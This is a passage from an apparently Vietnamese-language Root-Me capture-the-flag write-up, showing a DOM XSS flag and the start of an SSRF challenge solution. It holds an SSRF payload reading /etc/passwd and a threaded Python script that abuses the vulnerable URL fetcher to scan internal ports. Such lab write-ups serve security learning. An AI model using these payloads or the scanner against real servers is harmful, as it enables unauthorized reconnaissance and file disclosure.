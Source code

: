 >Flag: rootme{FilTERS_ByPass_DOm_BASEd_XSS}



## 3: SSRF - Server side request fogery

```
Statement
Objectif final : Get root privileges on SSRF box CTF All The Day to read the flag in the /root directory !
Validation flag is stored in the file /passwd

```
Ở đây web app cho mình nhập một url và nó sẽ thực hiện crawl dữ liệu từ cái url về, thử với đường dẫn http://youtube.com 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_01.jpg)

Để test lỗ hổng ssrf, ta có thể fuzz qua payload như: file:///etc/passwd  để thử đọc file có trên web server bằng cách sử dụng giao thức đọc file.

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_02.jpg)

Nhưng bằng cách này thì mình không thể đọc các file root mà chỉ có thể đọc được các file trong quyền của mình, nên sẽ kh đọc được flag. Vì vậy mình tiếp tục fuzz tiếp xem những port nào trên local đang chạy. Ở đây mình có thể dùng  Intruder của burp để phát hiện các cổng dịch vụ đang mở hoặc dùng script:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_03.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_04.jpg)



### Hoặc script:

```
import threading,requests
from queue import Queue
 
def scan(port):
    h={"Content-Type": "application/x-www-form-urlencoded",}
    url= "http://ctf09.root-me.org/index.php"
    data={"url":f"localhost:{port}"}
    r= requests.post(url,data=data)
    if "Connection refused" not in r.text:
        print(f"[+] FOUND AT PORT: {port}")
 
def threader():
    while True:
        worker = q.get()
        scan(worker)
        q.task_done()
 
q = Queue()
for i in range(100):
    t = threading.Thread(target=threader)
    t.daemon = True
    t.start()
 
for worker in range(1, 10000):
    q.put(worker)
 
q.join()

```
